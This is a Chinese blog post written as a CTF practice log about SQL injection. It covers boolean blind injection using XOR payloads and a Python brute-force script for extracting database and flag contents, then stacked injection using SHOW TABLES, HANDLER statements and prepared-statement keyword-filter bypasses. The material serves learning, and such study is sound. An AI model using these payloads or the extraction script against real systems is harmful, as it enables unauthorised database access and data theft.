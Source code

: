 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      对于多种sqli的练习与总结(二)               # 标题 
subtitle:   实操加强对sqli的熟悉度
date:       2020-04-02             # 时间
author:     z0L1n                      # 作者
header-img: img/post-bg-2015.jpg    #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               #标签
    - 基础
---
```


## 0x00布尔盲注：
首先进入页面，比较特殊，通常来说都是全都点一下吧，然后框框里的数字点的时候返回的url`/?id=1`引起我的注意，但是我们还是先测试一下登录功能：  
![](https://wx4.sinaimg.cn/mw690/007IMTbqgy1gdffeunetaj30lg0etn3o.jpg)  
![](https://wx1.sinaimg.cn/mw690/007IMTbqgy1gdffexlr91j30jk0fvq8v.jpg)  
居然用户名出现单引号都直接被揪出来了，那么在这里猜想一下，是否对用户名和密码都进行了严格的过滤，fuzz一下吧：  
![](https://wx3.sinaimg.cn/mw690/007IMTbqgy1gdfff4l275j30zy0mbq5u.jpg)  
恩看来这里sql注入的可能性很低了，此时那几个框框的url倒是值得去尝试一下，首先填入id=6：  
![](https://wx2.sinaimg.cn/mw690/007IMTbqgy1gdfff7lkyhj30kz0dxjwh.jpg)  
咦显示不存在这个表，有点意思，继续测试填入id=7：  
![](https://wx1.sinaimg.cn/mw690/007IMTbqgy1gdfffl9exfj30l50fhafu.jpg)  
这个时候回显又不同了，继续测试一下8/9/10，不存在的话会返回error页面，存在的话会返回正常页面：前面提到表，难道是根据id查表，然后回显内容嘛？
鉴于习惯，测试一下id=0：  
![](https://wx1.sinaimg.cn/mw690/007IMTbqgy1gdfffl9exfj30l50fhafu.jpg)  
收集到的信息为，id=0：error！！！，这个时候条件符合我们的布尔盲注了，payload构造返回1，就是正常页面，返回0，就是error！！！页面。那么接下来尝试一下子盲注：  
构造payload：`1^1^1`以及`1^0^1`：  
![](https://wx4.sinaimg.cn/mw690/007IMTbqgy1gdfffpvof8j30dh07f3yl.jpg)
![](https://wx1.sinaimg.cn/mw690/007IMTbqgy1gdffft7r6lj30cl08it8w.jpg)  
这下子好了，布尔盲注可以进行下一步了：    
手工进行一下`1^(length(select(database())>n)^1`:   
![](https://wx4.sinaimg.cn/mw690/007IMTbqgy1gdfffwj2a4j30dz05vdft.jpg)   
咦怎么不行，那就试试这个语句：`1^(length(database())>1^1`：  
![](https://wx4.sinaimg.cn/mw690/007IMTbqgy1gdffg3cgstj30g406vmxa.jpg)   
好成功了，写个小脚本来爆破一下数据库名长度：  
```
# for i in range(1,20):
    #     temp["id"] = "1^(length(database())>"+str(i)+")^1"
    #     r=requests.get(url,temp)
    #     if "ERROR!!!" in r.text:
    #         print("length:"+str(i))
    #         break;
```
结果为：length=4   
那么接下来就开始爆破库名，字段名，：  
payload构造为：    
`1^(ascii(substr((select(database())),%d,1))>%d)^1`  
下面语句稍微修改一下即可爆字段名了：  
`1^(ascii(substr((selcect(group_concat(table_name))from(information_schema.tables)where(table_schema='geek'))),i,1))>m)^1`  
下面的为二分法爆表的字段内容,由于用来做过其他题目，可能部分地方需要自己恰当修改一下，可参考思路(get和post差不多），同样上面爆破字段名，表名，数据库名也用二分法快速爆破：  
```
url = "http://xxxxxxxxx/xxxxx"
temp = {"id":""}
tablename=''
# for i in range(1,50):
    #     low = 31
    #     high =128
    #     mid = (low+high)//2
    #     while(low<high):
    #         temp['id'] = "1^(ascii(substr((select(flag)from(flag)),%d,1))>%d)^1" %(i,mid)
    #         r = requests.post(url,data=temp)
    #         if "Hello" in r.text:
    #             low=mid+1
    #         else:
    #             high=mid
    #         mid = (low + high) // 2
    #     tablename+=chr(mid)
    #     print(chr(mid))
    # print(tablename)
    ```
**总结一下：**  
 > 本次练习中，用了sql布尔盲注，盲注思维得到了一定的训练，旨在能够准确找到盲注点，通过页面响应判断是否存在以及寻找页面识别点，这样就能进行下去，如果盲注部分使用词汇被过滤，可以查找一下替代的词语，
 许多大表哥也有总结，自己要善于去汲取人家的精华和总结，这样能让自己更快的学习到相关的知识，而不是盲目的去试，到了一定程度相信自己也能很好的掌握技巧。

## 0x01堆叠注入的另外一些用法（强网杯-随便注）：  
首先看看页面：输入0-10看看反馈是些啥，  
![](https://wx1.sinaimg.cn/mw690/007IMTbqgy1gdfhvtf1ayj30bb079t8q.jpg)  
这里大概说一下情况，就是输入1/2/3这个数字有回显，然后其他数字都会复位为1.接下来测试一下闭合情况，单引号走起：  
![](https://wx4.sinaimg.cn/mw690/007IMTbqgy1gdfhy52t13j30cw02vt8h.jpg)  
应该是单引号闭合了，尝试了一下1';#和1'#，还有加上and 1=1# 和and 1=2#测试，都是可以正常查询到1，接下来就试堆叠注入(1';select database();#)：  
![](https://wx4.sinaimg.cn/mw690/007IMTbqgy1gdfhvwqveuj30j80360sk.jpg)  
这个时候看到正则匹配，select和where都被过滤了，导致联合注入，报错注入，盲注都可能无效，那么想到预编译和另外一种handler语法，刚刚错误回显是mysql数据库。  
使用之前先看看能不能拿到表名，show databases；show tables；构造payload：-1';show tables;#  
![](https://wx4.sinaimg.cn/mw690/007IMTbqgy1gdfhw5oi83j30ah06f3yd.jpg)  
拿到了，然后尝试handler语法吧,有挺多过程没有展现出来，本次记录重点拓展了其他语法在sql的使用，在查询数据库名，和表名还有字段名的时候还是挺简单的：  
```
handler `1919810931114514` open;
handler `1919810931114514` read first;
handler `1919810931114514` close;
```  
接下来还有预编译的使用：  
Set @try = concat('sele','ct * from `1919810931114514`;');  
Prepare stmt from @try;  
execute stmt;  
deallocate Prepare;  
尝试一下：  
![](https://wx4.sinaimg.cn/mw690/007IMTbqgy1gdfhw9chmtj30cs01tjr5.jpg)  
还有过滤，这次是strstr函数，由于此函数不能区分大小写，所以我们进行大小写绕过即可成功达到目的。    
总结一下：我们在sql注入的尝试过程中，目前来说是有这些多样化的方法，在不断的学习中去掌握它，并且理解原理能帮助我们更好的进行测试，在这个菜鸟阶段吧，还是要多多向师傅们学习，挺舒服的，给自己的建议，多点去寻找学习新的知识，勇于去尝试，加油。








